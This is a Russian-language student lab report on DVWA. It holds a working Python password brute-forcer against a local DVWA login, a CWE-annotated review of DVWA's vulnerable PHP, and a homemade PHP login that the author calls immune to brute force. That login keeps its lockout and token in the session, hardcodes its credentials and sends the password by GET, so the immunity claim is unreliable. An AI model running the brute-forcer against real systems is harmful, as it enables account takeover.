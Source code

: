 # DAMDINOV_LAB_3

Для выполнения данной лабораторной работы была установлена виртуальная система Dojo
![image](https://github.com/user-attachments/assets/badda7dd-b919-49ab-9aa8-aebd15eaa26d)


Задание 1. Переборщик

Запуск DVWA 
![image](https://github.com/user-attachments/assets/44db3c1e-8834-4947-8cfa-72ce0c2d50b5)

Для успешного перебора кода нужно PHPSESSID 
![image](https://github.com/user-attachments/assets/c90a1eae-a58a-4ec1-88fe-4567a7284332)

Код переборщика:
```
import itertools
import requests
import time

charset = 'abcdefghijklmnopqrstuvwxyz'
pass_length = 8
username = "admin"
dop = "passwo"
session = requests.Session()
url = "http://localhost/dvwa/vulnerabilities/brute/"
session.cookies.set("PHPSESSID", "tpqr8qp76rlhvmp091uglh98tm")
session.cookies.set("security", "low")

def podbor(url, username, password):
    params = {
        'username': username,
        'password': password,
        'Login': 'Login'
    }
    try:
        response = session.get(url, params=params)
        return "Welcome to the password protected area admin" in response.text
    except requests.exceptions.ConnectionError as e:
        print(f"[-] Ошибка подключения: {e}")
        return False
    except requests.exceptions.RequestException as e:
        print(f"[-] Ошибка при запросе: {e}")
        return False

def generate_passwords(dop, length, charset):
    remaining_length = length - len(dop)
    for combination in itertools.product(charset, repeat=remaining_length):
        yield dop + ''.join(combination)

def main():
    start_time = time.time()
    print("[*] Начинаем перебор пароля...")
    for password in generate_passwords(dop, pass_length, charset):
        print(f"[*] Проверяем: {password}")
        if podbor(url, username, password):
            print(f"[+] Успешно! Пароль: {password}")
            break
    else:
        print("[-] Не удалось найти пароль.")
    end_time = time.time()
    print(f"[+] Время выполнения: {end_time - start_time:.2f} с")

if __name__ == "__main__":
    main()

```
Переборщик успешно подбирает пароль
![image](https://github.com/user-attachments/assets/24b006af-4ee7-4748-a1af-98a219350616)


Задание 2. Анализ кода
```
<?php
if( isset( $_GET[ 'Login' ] ) ) {
    // Получение имени пользователя
    $user = $_GET[ 'username' ];
    // Получение пароля
    $pass = $_GET[ 'password' ];
    
    // CWE-327 (Использование устаревшего или ненадежного криптографического алгоритма)
    // Используется MD5 для хеширования паролей, что небезопасно. Этот алгоритм считается устаревшим и уязвимым для атак, таких как подбор и коллизии.
    $pass = md5( $pass );

    // CWE-89 (SQL-инъекции)
    // Переменные $user и $pass напрямую вставляются в SQL-запрос без экранирования или использования подготовленных выражений. Это делает приложение уязвимым для SQL-инъекций.
    $query  = "SELECT * FROM `users` WHERE user = '$user' AND password = '$pass';";
    
    // Выполнение SQL-запроса
    $result = mysqli_query($GLOBALS["___mysqli_ston"],  $query ) 
        // CWE-209 (Утечка информации через сообщения об ошибках)
        // Вывод ошибок базы данных на экран позволяет атакующему получить информацию о структуре базы и настройках приложения, что облегчает последующие атаки.
        or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

    if( $result && mysqli_num_rows( $result ) == 1 ) {
        // Получение данных пользователя
        $row    = mysqli_fetch_assoc( $result );
        $avatar = $row["avatar"];
        
        // CWE-79 (Неэкранированные данные во время генерации веб-страницы — XSS)
        // Данные, полученные из базы данных (например, $avatar), не проходят проверку или экранирование.
        // Это позволяет злоумышленнику внедрять вредоносный код (JavaScript) в веб-страницу.
        $html .= "<p>Welcome to the password protected area {$user}</p>";
        $html .= "<img src=\"{$avatar}\" />";
    }
    else {
        // Ошибка входа
        $html .= "<pre><br />Username and/or password incorrect.</pre>";
    }
    // Закрытие подключения
    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}
?>
```
1) Использование устаревшего хеширования (CWE-327): MD5 не обеспечивает должной безопасности для хранения паролей. Нужно заменить на bcrypt.

2) SQL-инъекции (CWE-89): прямое включение пользовательских данных в SQL-запросы без экранирования делает систему уязвимой. Необходимо использовать подготовленные выражения (mysqli_stmt или PDO).

3) Вывод ошибок базы данных в браузер (CWE-209): сообщения об ошибках предоставляют атакующему ценную информацию о сервере и базе данных. Ошибки должны логироваться только на сервере.

4) Уязвимость для XSS (CWE-79): Переменные $user и $avatar выводятся на страницу без экранирования. Это открывает возможность внедрения вредоносного кода. Нужно использовать htmlspecialchars для безопасного вывода данных.

5) Нет защиты от атак методом перебора: не предусмотрено ограничение на количество попыток входа, что делает систему уязвимой для атак перебора паролей.


Задание 3. Своя система авторизации
Для создания своей системы авторизации была установлена XAMPP
![image](https://github.com/user-attachments/assets/1286ac8f-dda0-411c-abb0-dff1c5d5b14c)

![image](https://github.com/user-attachments/assets/3b850774-2e7e-464f-92e3-6e5828637e23)

![image](https://github.com/user-attachments/assets/c04ee0d2-86a5-4edb-9d6f-a370aa81b950)
```
<?php
session_start();

$valid_username = "admin";       
$valid_password = "password123"; 
$max_attempts = 3;                
$lockout_time = 5 * 60;           

if (!isset($_SESSION['user_token'])) {
    $_SESSION['user_token'] = bin2hex(random_bytes(32));
}

if (!isset($_SESSION['login_attempts'])) {
    $_SESSION['login_attempts'] = [];
}

$ip = $_SERVER['REMOTE_ADDR'];

function isBlocked($ip, $max_attempts, $lockout_time) {
    if (!isset($_SESSION['login_attempts'][$ip])) {
        return 0;
    }

    $attempts = $_SESSION['login_attempts'][$ip];
    $recent_attempts = array_filter($attempts, function ($time) use ($lockout_time) {
        return $time > time() - $lockout_time;
    });

    $_SESSION['login_attempts'][$ip] = $recent_attempts; 

    if (count($recent_attempts) >= $max_attempts) {
        $remaining_time = $lockout_time - (time() - end($recent_attempts));
        return $remaining_time > 0 ? $remaining_time : 0;
    }

    return 0;
}

function recordFailedAttempt($ip) {
    if (!isset($_SESSION['login_attempts'][$ip])) {
        $_SESSION['login_attempts'][$ip] = [];
    }

    $_SESSION['login_attempts'][$ip][] = time();
}

$blocked_time = isBlocked($ip, $max_attempts, $lockout_time);
if ($blocked_time > 0) {
    die("Ваш IP временно заблокирован. Попробуйте снова через {$blocked_time} секунд.");
}

if (isset($_GET['Login'])) {
    $username = $_GET['username'] ?? '';
    $password = $_GET['password'] ?? '';
    $user_token = $_GET['user_token'] ?? '';

    if ($user_token !== $_SESSION['user_token']) {
        die("Ошибка: недопустимый токен.");
    }

    if ($username === $valid_username && $password === $valid_password) {
        $_SESSION['authenticated'] = true;
        echo "Добро пожаловать, {$username}!";
    } else {
        recordFailedAttempt($ip);
        echo "Неверное имя пользователя или пароль.";
    }
}
?>

<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Login</title>
</head>
<body>
    <form method="GET">
        <label>Имя пользователя:</label><br>
        <input type="text" name="username" required><br>
        <label>Пароль:</label><br>
        <input type="password" name="password" required><br>
        <input type="hidden" name="user_token" value="<?php echo $_SESSION['user_token']; ?>"><br>
        <button type="submit" name="Login">Войти</button>
    </form>
</body>
</html>
```
Переборщик не может взломать данный аутентификатор потому что:
1) После 3 неправильных попыток входа с одного IP-адреса, пользователь блокируется на 5 минут. Это делает брутфорс бесполезным.
2) CSRF-защита: каждый запрос требует уникального токена user_token, который сгенерирован для текущей сессии. Переборщик не сможет угадать правильный токен и передать его в запросе.
3) Пароль и токен передаются как параметры в URL. Для переборщика потребуется постоянно менять токен, а это невозможно без доступа к сессии.
